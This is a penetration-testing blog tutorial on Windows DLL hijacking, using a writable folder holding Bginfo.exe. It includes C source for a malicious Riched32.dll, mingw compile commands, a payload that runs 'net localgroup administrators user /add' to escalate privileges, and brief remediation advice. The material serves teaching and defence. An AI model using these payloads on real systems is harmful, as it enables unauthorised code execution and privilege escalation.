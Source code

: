 ```yaml
---
title:  "DLL hijacking in Windows. Simple C example."
date:   2021-09-24 10:00:00 +0600
header:
  teaser: "/assets/images/8/2021-09-25_12-09.png"
categories: 
  - pentest
tags:
  - dllhijack
  - windows
  - privesc
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL hijacking](/assets/images/8/2021-09-25_12-09.png){:class="img-responsive"}

What is DLL hijacking? DLL hijacking is technique when we tricking a legitimate/trusted application into loading an our malicious DLL.

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:

![DLL hijacking](/assets/images/8/dllhijack.png){:class="img-responsive"}

In our post, we will only consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it’s the first location used in the search process.

### Step 1. Find process with missing DLLs

The most common way to find missing Dlls inside a system is running [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, setting the following filters:

![procmon with filters](/assets/images/8/2021-09-25_11-52.png){:class="img-responsive"}

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:

![procmon missing dlls](/assets/images/8/2021-09-25_11-53.png){:class="img-responsive"}

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`

### Step 2. Check folder permissions

Let's go to check folder permissions:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](/assets/images/8/2021-09-25_14-42.png){:class="img-responsive"}

According to the [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) we have write access to this folder.   

### Step 3. DLL hijacking

Firstly, let's go to run our `bginfo.exe`:
![run bginfo](/assets/images/8/2021-09-25_11-54.png){:class="img-responsive"}

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](/assets/images/8/2021-09-25_11-58.png){:class="img-responsive"}

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.

![replace DLL](/assets/images/8/2021-09-25_14-54.png){:class="img-responsive"}

And now launch `bginfo.exe`:

![run process 1](/assets/images/8/2021-09-25_12-00.png){:class="img-responsive"}

![run process 2](/assets/images/8/2021-09-25_12-04.png){:class="img-responsive"}

As you can see, our malicious logic is executed:

So, `bginfo.exe` and malicious `Riched32.dll` in the same folder **(1)**    
Then launch `bginfo.exe` **(2)**    
Message box is popped-up! **(3)**   

### Remediation

Perhaps the simplest remediation steps would be simply to ensure that all installed software goes into the protected directory `C:\Program Files` or `C:\Program Files (x86)`. If software cannot be installed into these locations then the next easiest thing is to ensure that only Administrative users have "create" or "write" permissions to the installation directory to prevent an attacker from deploying a malicious DLL and thereby breaking the exploitation.

### Privilege escalation

DLL hijacking can be used for more than just executing code. It can also be used to gain persistence and privilege escalation:

Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.   
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).   

Then replace our code:
```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      system("cmd.exe /k net localgroup administrators user /add");
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}

```

*For x64 compile with: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*For x86 compile with: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Further, all steps are similar.

### Conclusion

But in all cases, there is a caveat.

Note that in some cases the DLL you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.

In the future I will try to figure out this, and I will try create python script which create `.def` file from target original DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

I've added the vulnerable bginfo (version 4.16) to github if you'd like to experiment.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*